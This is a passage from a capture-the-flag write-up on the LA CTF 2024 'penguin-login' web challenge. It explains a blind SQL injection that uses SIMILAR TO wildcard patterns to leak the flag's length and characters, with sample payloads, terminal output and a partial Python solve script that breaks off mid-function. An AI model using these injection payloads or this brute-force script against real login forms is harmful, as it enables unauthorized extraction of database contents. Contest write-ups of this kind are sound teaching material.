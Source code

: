 ```python
    print(f'[+] We found the correct flag string length: {flagStringLength}')
```

```shell
┌[siunam♥Mercury]-(~/ctf/LA-CTF-2024/web/penguin-login)-[2024.02.19|16:43:37(HKT)]
└> python3 exploit.py
[*] Length 4 returned boolean value True, but the length is same as the database's penguin name
[*] Length 7 returned boolean value True, but the length is same as the database's penguin name
[+] We found the correct flag string length: 45
```

Now we know that the flag string length is `45`!

- Leak the flag:

In this step, we can simply **brute force the flag's character with the `allowed_chars`**! 

**However, it's worth noting that an error will occurred with the following SQL query:** 
```sql
' OR name SIMILAR TO 'lactf{1______________________________________
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/LA-CTF-2024/images/Pasted%20image%2020240219165553.png)

This is because, in regular expression, `{x}` is to **match previous token (Character) exactly x times**.

Since we know the flag format is `lactf{.*}`, we can **just not to prepend and append the `lactf{` and `}`** to the regular expression pattern.

**So, our payload will be something like this:**
```sql
' OR name SIMILAR TO '______1______________________________________
' OR name SIMILAR TO '______12_____________________________________
' OR name SIMILAR TO '______123____________________________________
```

**Armed with above information, we can finish our Python solve script:**
```python
#!/usr/bin/env python3
import requests
from string import ascii_letters, digits

class Exploit:
    def __init__(self, baseUrl):
        self.baseUrl = baseUrl
        self.SUBMIT_ROUTE = '/submit'
        self.WILDCARD_CHARACTER = '_'
        self.EXCLUDED_NAMES = ('peng', 'emperor')
        self.EXCLUDED_NAMES_LENGTH = tuple(len(name) for name in self.EXCLUDED_NAMES)

        # underscore (_) and single quote (') character is excluded, 
        # because it's the wildcard character and will cause syntax error
        # space ( ) character is also excluded, because the flag format shouldn't have that character?
        self.ALLOWED_CHARS = sorted(set(ascii_letters + digits + "flag{aword}"))
        self.PREPENDED_FLAG = 'lactf{'
        self.PREPENDED_FLAG_LENGTH = len(self.PREPENDED_FLAG)
        self.APPENDED_FLAG = '}'
        self.APPENDED_FLAG_LENGTH = len(self.APPENDED_FLAG)

    def leakFlagStringLength(self):
        for length in range(1, 100):
            print(f'[*] Finding flag string length | Current length: {length}', end='\r')

            payload = f"' OR name SIMILAR TO '{self.WILDCARD_CHARACTER * length}"
            data = {
                'username': payload
```